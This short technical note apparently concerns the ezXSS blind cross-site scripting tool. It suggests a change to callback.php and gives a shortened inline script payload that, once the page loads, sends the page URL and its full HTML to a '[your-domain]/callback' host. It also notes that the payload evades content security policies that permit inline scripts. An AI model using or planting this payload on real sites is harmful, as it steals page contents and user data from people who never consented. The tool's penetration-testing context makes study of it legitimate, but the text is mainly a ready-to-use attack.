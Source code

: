 Adding a quick check for the existence of parameters in callback.php of ezXSS (line 13-27) allows those parameters to be missing from log requests.

Now the plain JS code which doesn't need to retrieve a file can be shortened a bit:

    <script>window.addEventListener('load',()=>{x={},a=document,x.uri=a.URL,x.dom=a.documentElement.outerHTML,t=new XMLHttpRequest,t.open('POST','https://[your-domain]/callback',1),t.send(JSON.stringify(x))})</script>
   
It's still pretty long, but better than before.

The benefit of this is that it's not caught by CSPs which allow  inline scripts.

